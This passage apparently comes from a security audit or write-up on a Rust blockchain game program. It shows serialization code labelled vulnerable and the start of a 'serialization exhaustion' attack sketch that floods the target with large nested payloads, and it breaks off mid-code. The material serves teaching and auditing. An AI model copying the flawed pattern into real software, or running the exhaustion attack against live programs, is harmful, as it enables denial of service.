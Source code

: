 ```rust
// VULNERABLE: Missing serialization optimization
impl GameHistory {
    pub fn serialize_history(&self) -> Result<Vec<u8>> {
        // Inefficient: No size estimation
        let mut buffer = Vec::new();

        // Poor pattern: Item-by-item serialization
        for game in &self.games {
            let game_data = game.try_to_vec()?;
            buffer.extend_from_slice(&game_data.len().to_le_bytes());
            buffer.extend_from_slice(&game_data);
        }

        Ok(buffer)
    }
}

// VULNERABLE: Inefficient nested serialization
pub fn process_batch_updates(accounts: &[AccountInfo], updates: Vec<Update>) -> ProgramResult {
    for update in updates {
        // Inefficient: Individual serialization per update
        let data = update.try_to_vec()
            .map_err(|_| ProgramError::InvalidAccountData)?;

        // Poor pattern: Immediate write without batching
        accounts[update.index].data.borrow_mut()[..data.len()].copy_from_slice(&data);
    }

    Ok(())
}
```

### Attack Vectors

#### 1. Serialization Exhaustion Attack
```rust
// Exploit: Force expensive serialization operations
pub struct SerializationExhaustionAttack {
    target_program: Pubkey,
    malicious_data: Vec<LargeObject>,
}

impl SerializationExhaustionAttack {
    pub fn execute_attack(&self) -> Result<()> {
        // Create data designed to maximize serialization overhead
        let expensive_data = self.create_expensive_payload();

        // Force multiple serialization cycles
        for _ in 0..100 {
            let instruction = self.create_update_instruction(expensive_data.clone());
            // Each call triggers inefficient serialization
            process_instruction(&self.target_program, &[], &instruction)?;
        }

        Ok(())
    }

    fn create_expensive_payload(&self) -> LargeGameState {
        LargeGameState {
            // Design payload to maximize serialization cost
            nested_data: vec![ComplexStruct::default(); 1000],
            large_strings: vec!["x".repeat(1000); 100],
            deeply_nested: create_deep_nesting(10),
```